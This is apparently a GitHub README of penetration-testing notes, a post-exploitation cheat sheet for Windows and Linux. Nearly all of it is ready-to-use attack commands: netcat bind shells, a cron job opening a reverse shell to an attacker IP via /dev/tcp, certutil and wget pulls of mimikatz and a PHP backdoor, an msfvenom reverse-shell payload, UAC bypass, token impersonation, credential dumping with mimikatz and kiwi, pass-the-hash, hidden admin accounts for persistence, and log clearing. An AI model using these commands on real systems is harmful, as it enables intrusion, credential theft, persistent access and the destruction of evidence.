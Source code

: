# General

<details>
<summary>Bind shell</summary>

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.
- Windows (target)
  - `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
- Linux (target)
  - `nc -nvlp <PORT> -e /bin/bash`
- Linux (attacker)
  - `nc -nv <IP> <PORT>`
- Windows (attacker
  - `nc.exe -nv <IP> <PORT>`

<br>
</details>

<details>
<summary>Transfer files</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv <ip> <port> < test.txt (sender)`
    
</details>

<details>
<summary>Interactive shell</summary>

- Linux
  - `/bin/bash -i`

<br>
</details>

<details>
<summary>Fully interactive shell</summary>

- Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`
    
</details>

<details>
<summary>Keylogger</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes

<br><br>
</details>

<details>
<summary>Pivoting</summary>
 
- Metasploit
  - `ipconfig` : find subnet (the host may be in other network)
  - `run autoroute -s <subnet>` : Adds routes. In this way we can access to other internal hosts. We can perform a scan from msfconsole on any devices in the subnet
    - Example:
      - `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      - `run autoroute -s 10.10.0.29.0/20`
  - `run autoroute -p` : Displays active routing table.
  - auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  - `portfwd list`
  - `nmap -sV -sC -p 1234 localhost`
  - //since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload : windows/meterpreter/bind_tcp

<br><br>
</details>

<details>
<summary>Change password</summary>

- Linux
  - `openssl passwd -1 -salt abc password`
    - Copy the generate entry and add it to root record in /etc/shadow

<br>
</details>

# Windows

<details>
<summary>Enumeration</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup` : Adds, displays, or modifies local groups
  - `net localgroup <group>` : Get group membership of user -> `net localgroup administrators`
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table (arp cache to discover other IP addresses on the target network)
  - `route print` : print route table (useful during the pivoting phase of post-exploitation as it can reveal network routes)
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid, active state, etc.  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation : JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

<br><br>
</details>

<details>
<summary>Persistence</summary>
 
- Metasploit
  - search persistence module (Windows)
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
  - You need to set a listener to receive the connection
- Enable RDP
  - with metasploit : search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
  - second way with metasploit/meterpreter (auto create account and settings):
    - In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      - enables rdp service --> creates new user with the provided parameters -->  hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.


<br><br>
</details>

<details>
<summary>Clearing tracks</summary>
 
- Metasploit/Meterpreter
  - `clearev` (clear the Application, System, and Security logs on a Windows system)
    
<br>
</details>

<details>
<summary>Privilege Escalation</summary>

<br>
Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br><br>

<details>
<summary>Automation script</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. Akagi64.exe 23 <payload_full_path>
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>Pass the Hash</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>Other</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


</details>

# Linux

<details>
<summary>Enumeration</summary>

- System info
  - `cat /etc/issue` Print linux distro version (Contains a message or system identification to be printed before the login prompt)
  - `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture 
  - `env` Print environment variables
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
  - `dpkg -l` : list packages installed with version
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m bob -s /bin/bash` : Creates a user. Useful for persistence
  - `usermod -aG root bob` : Add bob to root group. Useful for persistence
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network
  - We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  - `ip a`
    - Useful to discover other network
  - `cat /etc/hostname` : display hostname
  - `cat /etc/hosts` : maps IP addresses to domain
    - Useful to discover internal domain you can access
  - `cat /etc/resolv.conf` : display the domain name server
    - Many times it is the default gateway
  - Meterpreter
    - `netstat` : Display the network connections
    - `route` : View and modify the routing table
      - Note: gateway is important... it can be a DNS server, DHCP server or all in one
    - `arp -a` : Display the host ARP cache
- Processes & services
  - `ps aux | grep root` : Useful for privesc
  - `top` dynamic real-time view of a running system (like task manager)
  - `crontab -l` : display cronjob for the root user
  - `ls -al /etc/cron*` : display all file that contains cronjob
  - `cat /etc/cron*` : display the contents of all cronjob files

<br><br>
</details>

<details>
<summary>Persistence</summary>

- Metasploit
  - search persistence module (Linux)
    - Example: post/linux/manage/sshkey_persistence (needed elevated privs - This module will add an SSH key to a specified user)
- Via SSH key
  - After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
- With cron jobs
  - Set up listener
  - `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1' > cron` : create a cronjob (every minute time format)
  - `crontab -i cron`
  - `crontab -l` : crontab for the current user
  - NOTE: if the command doesn't work try with another one... revshell 

<br><br>
</details>

<details>
<summary>Clearing tracks</summary>

- `history -c` : to clear history in linux
- `cat /dev/null > ~/.bash_history` : same as above

<br><br>
</details>

<details>
<summary>Privilege Escalation</summary>

<br>

<details>
<summary>Vulnerable program</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br><br>
</details>

<details>
<summary>Weak Permissions</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br><br>
</details>

<details>
<summary>Sudo</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br><br>
</details>

<details>
<summary>Other</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>
</details>

<br>
</details>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*
